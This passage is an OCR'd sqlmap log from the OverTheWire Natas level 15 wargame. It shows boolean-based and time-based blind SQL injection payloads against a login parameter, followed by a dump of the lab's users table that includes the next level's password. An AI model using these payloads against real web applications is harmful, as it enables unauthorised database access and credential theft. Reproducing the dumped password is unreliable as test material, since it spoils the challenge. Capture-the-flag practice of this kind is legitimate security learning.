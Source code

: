 ```
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[11:39:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[11:39:30] [INFO] fetching entries of column(s) 'password,username' for table 'users' in database 'natas15'
[11:39:30] [INFO] fetching number of column(s) 'password,username' entries for table 'users' in database 'natas15'
[11:39:30] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:39:30] [INFO] retrieved: 
[11:39:31] [WARNING] reflective value(s) found and filtering out
4
[11:39:32] [INFO] retrieved: 6P151OntQe
[11:39:37] [INFO] retrieved: bob
[11:39:39] [INFO] retrieved: HLwuGKts2w
[11:39:42] [INFO] retrieved: charlie
[11:39:45] [INFO] retrieved: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
[11:39:59] [INFO] retrieved: natas16
[11:40:02] [INFO] retrieved: hROtsfM734
[11:40:06] [INFO] retrieved: alice
Database: natas15
Table: users
[4 entries]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| bob      | 6P151OntQe                       |
| charlie  | HLwuGKts2w                       |
| natas16  | hPkjKYviLQctEW33QmuXL6eDVfMW4sGo |
| alice    | hROtsfM734                       |
+----------+----------------------------------+

[11:40:08] [INFO] table 'natas15.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org/dump/natas15/users.csv'                                                                                                  
[11:40:08] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'                                                                                                                          
[11:40:08] [WARNING] your sqlmap version is outdated

[*] ending @ 11:40:08 /2025-05-18/
```

---